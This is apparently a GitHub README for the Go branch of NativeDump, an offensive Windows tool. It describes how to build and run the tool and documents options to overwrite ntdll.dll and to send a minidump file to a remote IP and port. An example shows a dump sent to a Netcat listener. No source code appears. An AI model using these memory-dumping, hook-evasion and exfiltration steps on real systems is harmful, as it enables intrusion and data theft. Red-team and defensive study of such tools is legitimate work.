 # NativeDump - "golang-flavour" branch

This branch implements the same functionality as the main branch using Golang: 

- Minidump file generation using only NTAPIS
- Overwrite the Ntdll.dll library (Optional)
- Exfiltrate the file to another host (Optional)

You can run it as a script:

```
go run nativedump.go [-o OPTION] [-k PATH] [-i IP_ADDRESS] [-p PORT_ADDRESS]
```

![golang1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang1.png)


As an alternative, you can compile it to a binary:

 ```
go build
```

![golang2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang2.png)

You can use the *-o* parameter for overwriting the ntdll.dll library:
- "disk": Using a DLL already on disk. If *-k* parameter is not used the path is "C:\Windows\System32\ntdll.dll".
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. If *-k* parameter is not used the process is "c:\windows\system32\calc.exe"

You can use *-i* (IP address) and *-p* (port) parameters to exfiltrate the file to another host, not creating a local file.

In this example, the ntdll.dll library is overwritten from a debug process, the Minidump file is generated and exfiltrated to 192.168.1.72:1234:

![ntdlloverwrite](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang3.png)

The Netcat listener receives the file correctly:

![dumpfile](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang4.png)

